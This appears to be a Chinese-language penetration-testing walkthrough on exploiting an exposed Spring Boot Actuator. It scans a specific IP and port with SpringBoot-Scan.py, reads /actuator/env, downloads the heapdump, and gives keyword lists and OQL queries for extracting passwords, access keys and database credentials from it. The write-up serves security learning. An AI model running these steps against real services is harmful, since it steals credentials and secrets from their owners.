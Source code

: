 ![image-20250626193135545](assets/image-20250626193135545.png)

使用SpringBoot-Scan.py工具：

```
python SpringBoot-Scan.py -u http://121.40.242.95:9002/
```

-u是信息泄露 -v可以探测漏洞



扫描结果：

![image-20250626193244282](assets/image-20250626193244282.png)

访问第一个：

![image-20250626193309679](assets/image-20250626193309679.png)

可以看到是一些接口的泄露，访问这个：

```
http://121.40.242.95:9002/actuator/env
```

泄露一些信息，比如，是Linux服务器：

![image-20250626193518940](assets/image-20250626193518940.png)

一般遇到这个就去找 heapdump 这是一个转储文件（类似于一个垃圾站） 在java里这是一个FULL的类，里面会存放username password sa root 数据库用户密码 secret（加密方式） path url

![image-20250626193602035](assets/image-20250626193602035.png)

访问这个地址 会下载一个叫heapdump的文件，

还可以：

这个springbootscan能自动下载：

```
python SpringBoot-Scan.py -d http://121.40.242.95:9002
```

把下载好的heapdump文件放到heapdump（工具）文件夹内

![image-20250626193737067](assets/image-20250626193737067.png)

选择1：

![image-20250626193757632](assets/image-20250626193757632.png)

输入keyword搜索，可以输入user、password、accesskey、name、systemproperties、allproperties、hashtable 、code（代码）、vertification（验证码接口）、vertify（验证码）、phone（手机号）、login（登录框）、register（注册地址）、database、root、url等

还可以输入sql语句查询密码：

```
Select * from byte[] s where toString(s) like ".*password.*"

Select * from char[] s where toString(s) like ".*password.*"

Select * from java.lang.String s where toString(s) like ".*password.*"
```

